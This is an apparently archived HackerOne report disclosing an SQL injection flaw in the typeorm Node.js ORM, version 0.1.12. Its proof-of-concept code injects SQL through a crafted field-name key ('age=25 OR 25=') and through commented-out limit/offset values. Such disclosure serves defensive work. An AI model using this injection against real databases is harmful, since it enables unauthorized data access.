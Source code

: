# typeorm does not properly escape parameters when building SQL queries, resulting in potential SQLi

## Report Details
- **Report ID**: 319458
- **URL**: https://hackerone.com/reports/319458
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-02-25T04:06:39.828Z
- **Disclosed**: 2019-04-03T20:27:32.311Z

## Reporter
- **Username**: chalker
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report an SQLi in typeorm.

It allows to insert potentially user-controlled content into the queries without proper escaping, in cases where that is not verified additionally in the applications that are using typeorm library.

## Module

**module name:** typeorm
**version:** 0.1.12
**npm page:** `https://www.npmjs.com/package/typeorm`

### Description

> TypeORM is an ORM that can run in NodeJS, Browser, Cordova, PhoneGap and Ionic platforms and can be used with TypeScript and JavaScript (ES5, ES6, ES7). Its goal to always support latest JavaScript features and provide features that help you to develop any kind of applications that use databases - from small applications with a few tables to large scale enterprise applications with multiple databases.

### Module Stats

583 downloads in the last day
19 143 downloads in the last week
68 193 downloads in the last month

~818316 estimated downloads per year

## Description

typeorm constructs SQL queries from structured input, and the problem is that it doesn't do proper escaping of field names and limit/offset parameters, so in setups where those are user-controlled that can cause an SQL injection vulnerability.

## Steps To Reproduce:

`typeorm init --name typeormtest --database sqlite`

Use the following code to reproduce:

```js
import "reflect-metadata";
import {createConnection} from "typeorm";
import {User} from "./entity/User";

createConnection().then(async connection => {
    console.log("Inserting a new user into the database...");
    const user = new User();
    user.firstName = "Timber";
    user.lastName = "Saw";
    user.age = 25;
    await connection.manager.save(user);
    console.log("Saved a new user with id: " + user.id);

    const repository = connection.getRepository(User);

    // SQLi on field names
    const where = { firstName: "Jim" };
    const opts = { where: where };
    where["age=25 OR 25="] = 25;

    // SQLi on limit/offset:
    //opts["skip"] = "OLOLO";
    //opts["take"] = "LOLOL";

    const res = await repository.find(opts);
    console.log(res);
}).catch(error => console.log(error));
```

The code is mostly taken from the standard `typeorm` example, only lines from `const repository` to `console.log(res)` were added.

## Supporting Material/References:

- Arch Linux Current
- Node.js 9.5.0
- npm 5.6.0
- sqlite3@3.1.13

## Wrap up

- I contacted the maintainer to let him know: N
- I opened an issue in the related repository: N

## Impact

SQL injection.
See https://www.owasp.org/index.php/SQL_Injection

The hacker selected the **SQL Injection** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**Verified**
Yes

**What exploitation technique did you utilize?**
Classic / In-Band

**Please describe the results of your verification attempt.**
Observed executed query.



## Attachments
No attachments
